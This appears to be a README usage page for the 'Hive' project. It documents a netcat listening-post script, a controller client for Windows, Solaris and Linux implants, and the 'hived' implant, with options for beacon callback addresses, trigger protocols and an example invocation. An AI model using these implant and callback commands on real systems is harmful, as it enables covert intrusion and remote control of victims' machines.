 # Hive Project

---

## nc.sh
Scripted netcat listener to emulate a listening post until LP is set up.

Usage:
./nc.sh

---

## hclient
Hive client that works with Windows, Solaris, and Linux implants.

Usage:
./hclient-linux-dbg [-p port] 
./hclient-linux-dbg [-p port] [-t address] [-a address] [-P protocol] [-d delay]

Options:
- -p port      : Callback port
- -t address   : IP address of target
- -a address   : IP address of listener
- -P protocol  : Trigger protocol
- -d delay     : (Optional) delay between received trigger and callback
- -h          : Print this usage

Examples:
Coming soon!

---

## hived
Hive implant.

Usage:
./hived-solaris-sparc-dbg -a <ip address> -p <port>

Options:
- -a : Beacon IP address to callback to
- -p : Beacon port
- -I : Interface [required, only for Solaris, e.g. hme0, e1000g0]
- -d : Initial Beacon delay in milliseconds
- -i : Beacon interval in milliseconds
- -h : Print help

Example:
./hived-solaris-sparc-dbg -a 10.3.2.76 -p 9999 -i 100000 -I hme0

---
